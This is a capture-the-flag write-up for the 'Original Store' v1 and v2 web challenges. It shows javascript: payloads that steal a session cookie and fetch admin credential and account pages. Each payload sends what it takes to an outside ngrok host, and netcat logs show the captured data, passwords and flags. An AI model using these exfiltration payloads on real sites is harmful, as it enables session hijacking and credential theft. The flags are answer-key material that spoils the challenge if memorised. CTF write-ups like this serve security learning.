


# Original Store v1 and v2

**Date:** 10, June, 2021

**Author:** Dhilip Sanjay S

---

## Original Store - Solution 1

### Account.php

- Create an account.
- Login using that credentials.
- Click on the `profile icon`, the `account.php` page will be loaded.
- It has a `PHPSESSID`
- If we change this cookie value to **admin's cookie**, then we can access the flag.

### Using javascript scheme

- Using the `javascript`, the PHP cookie can be fetched:

```js
javascript:(fetch("http://683b6a41c9a9.ngrok.io?c="+document.cookie))
```

- The response:

```
$ nc -lvnp 1234
listening on [any] 1234 ...

connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 49964
GET /?c=PHPSESSID=bn3nijo3ded9hfnlei5ikhccse HTTP/1.1
Host: 683b6a41c9a9.ngrok.io
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.5
Origin: http://localhost
Referer: http://localhost/
X-Forwarded-For: 35.244.38.232
X-Forwarded-Proto: http
```

### Change PHPSESSID

- Change the PHPSESSID to login as admin and then visit `account.php`:



---

## Original Store - Solution 2

- There was directory listing enabled.
- The `/api/` folder had three versions `v1, v2 and v3`.
- All of them had `authorize.php` file.
- We can read the contents of `api/v1/authorize.php` to get admin password:

```js
javascript:fetch("/api/v1/authorize.php").then(r=>r.text()).then(r=>fetch("http://683b6a41c9a9.ngrok.io/?c="+r))
```

- The response:

```
$ nc -lvnp 1234
listening on [any] 1234 ...

connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 49992
GET /?c={%22username%22:%22admin%22,%20%22password%22:%22V3ryStr0ngP4ssw0rdF0rN0Cr4ck%22} HTTP/1.1
Host: 683b6a41c9a9.ngrok.io
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.5
Origin: http://localhost
Referer: http://localhost/
X-Forwarded-For: 35.244.38.232
X-Forwarded-Proto: http
```

---

## Original Store - Solution 3

- Read the contents of `account.php`:

```js
javascript:fetch("/account.php").then(r=>r.text()).then(r=>fetch("http://683b6a41c9a9.ngrok.io/?c="+r))
```

- The response:

```
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 50008
GET /?c=%3Clink%20href=%22//netdna.bootstrapcdn.com/bootstrap/3.1.0/css/bootstrap.min.css%22%20rel=%22stylesheet%22%20id=%22bootstrap-css%22%3E%3Cscript%20src=%22//netdna.bootstrapcdn.com/bootstrap/3.1.0/js/bootstrap.min.js%22%3E%3C/script%3E%3Cscript%20src=%22//code.jquery.com/jquery-1.11.1.min.js%22%3E%3C/script%3E%3Clink%20rel=%22stylesheet%22%20href=%22https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css%22%3E%20%3Cdiv%20class=%22container%22%3E%20%20%20%20%3Cdiv%20class=%22span3%20well%22%3E%20%20%20%20%20%20%20%20%3Ccenter%3E%20%20%20%20%20%20%20%20%3Cimg%20src=%22https://i.ytimg.com/vi/jllUYAjIiYg/maxresdefault.jpg%22%20name=%22aboutme%22%20width=%22140%22%20height=%22140%22%20class=%22img-circle%22%3E%3C/a%3E%20%20%20%20%20%20%20%20%3Ch2%3Eadmin%3C/h2%3E%3C/center%3E%3Cbr%3E%3Ccenter%3E%3Ch2%3EAdmin%20has%20his%20own%20original%20secrets:%20zh3r0{4dm1n_l0ves_0nly_0r1g1n4ls_br0}%3C/h2%3E%3Ccenter%3E%3Ch2%3E%3Ca%20href=%22logout.php%22%20class=%22btn%20btn-danger%20ml-3%22%3ESign%20Out%20of%20Your%20Account%3C/a%3E%3C/center%3E%3Ch2%3E%3C/div%3E%3C/div%3E HTTP/1.1
Host: 683b6a41c9a9.ngrok.io
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.5
Origin: http://localhost
Referer: http://localhost/
X-Forwarded-For: 35.244.38.232
X-Forwarded-Proto: http
```

- URL decode the response to get the flag!

---

## Original Store v2 - Solution 1

- We can read the contents of `api/v1/authorize.php` to get admin password:

```js
javascript:fetch("/api/v1/authorize.php").then(r=>r.text()).then(r=>fetch("http://683b6a41c9a9.ngrok.io/?c="+r))
```

- The response:

```
$ nc -lvnp 1234
listening on [any] 1234 ...

connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 49996
GET /?c={%22username%22:%22admin%22,%20%22password%22:%22V3ryStr0ngP4ssw0rdF0rN0Cr4ckTh1sT1m3V2Ch4llP4ss%22} HTTP/1.1
Host: 683b6a41c9a9.ngrok.io
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.5
Origin: http://localhost
Referer: http://localhost/
X-Forwarded-For: 35.200.225.133
X-Forwarded-Proto: http
```




## Original Store v2 - Solution 2

- Read the contents of `account.php`:

```js
javascript:fetch("/account.php").then(r=>r.text()).then(r=>fetch("http://683b6a41c9a9.ngrok.io/?c="+r))
```

- The response:

```
$ nc -lvnp 1234
listening on [any] 1234 ...

connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 50004
GET /?c=%3Clink%20href=%22//netdna.bootstrapcdn.com/bootstrap/3.1.0/css/bootstrap.min.css%22%20rel=%22stylesheet%22%20id=%22bootstrap-css%22%3E%3Cscript%20src=%22//netdna.bootstrapcdn.com/bootstrap/3.1.0/js/bootstrap.min.js%22%3E%3C/script%3E%3Cscript%20src=%22//code.jquery.com/jquery-1.11.1.min.js%22%3E%3C/script%3E%3Clink%20rel=%22stylesheet%22%20href=%22https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css%22%3E%20%3Cdiv%20class=%22container%22%3E%20%20%20%20%3Cdiv%20class=%22span3%20well%22%3E%20%20%20%20%20%20%20%20%3Ccenter%3E%20%20%20%20%20%20%20%20%3Cimg%20src=%22https://i.ytimg.com/vi/jllUYAjIiYg/maxresdefault.jpg%22%20name=%22aboutme%22%20width=%22140%22%20height=%22140%22%20class=%22img-circle%22%3E%3C/a%3E%20%20%20%20%20%20%20%20%3Ch2%3Eadmin%3C/h2%3E%3C/center%3E%3Cbr%3E%3Ccenter%3E%3Ch2%3EYou%20beat%20the%20admin%20again:%20zh3r0{4dm1n_h4tes_car_st34l3rs_br0}%3C/h2%3E%3Ccenter%3E%3Ch2%3E%3Ca%20href=%22logout.php%22%20class=%22btn%20btn-danger%20ml-3%22%3ESign%20Out%20of%20Your%20Account%3C/a%3E%3C/center%3E%3Ch2%3E%3C/div%3E%3C/div%3E HTTP/1.1
Host: 683b6a41c9a9.ngrok.io
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.5
Origin: http://localhost
Referer: http://localhost/
X-Forwarded-For: 35.200.225.133
X-Forwarded-Proto: http
```

- URL decode the response to get the flag!

---